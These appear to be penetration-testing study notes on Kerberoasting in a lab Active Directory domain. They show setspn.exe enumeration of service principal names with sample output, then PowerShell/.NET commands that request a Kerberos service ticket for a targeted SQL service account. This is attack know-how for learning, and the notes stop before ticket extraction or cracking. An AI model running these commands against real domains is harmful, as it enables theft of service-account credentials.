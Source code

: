 # Kerberoasting - Semi Manual Method

## Enumerating SPNs (Service Principal Names)
Tool: setspn.exe

Command:
```
setspn.exe -Q */*
```
- IDs user/service accts w/ SPNs; filter out computer accts.

Example Output:
```
C:\htb> setspn.exe -Q */*

Checking domain DC=INLANEFREIGHT,DC=LOCAL
CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
        exchangeAB/ACADEMY-EA-DC01
        exchangeAB/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        TERMSRV/ACADEMY-EA-DC01
        TERMSRV/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/ForestDnsZones.INLANEFREIGHT.LOCAL
        ldap/ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DomainDnsZones.INLANEFREIGHT.LOCAL

<SNIP>

CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        backupjob/veam001.inlanefreight.local
CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        sts/inlanefreight.local

<SNIP>

CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SPSJDB.inlanefreight.local:1433
CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
        adfsconnect/azure01.inlanefreight.local

Existing SPN found!
```

## Targeting a Single User - Requesting TGS Tickets
Tool: PS + .NET

Command:
```
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```
- Loads TGS into memory; request for single user or loop all.
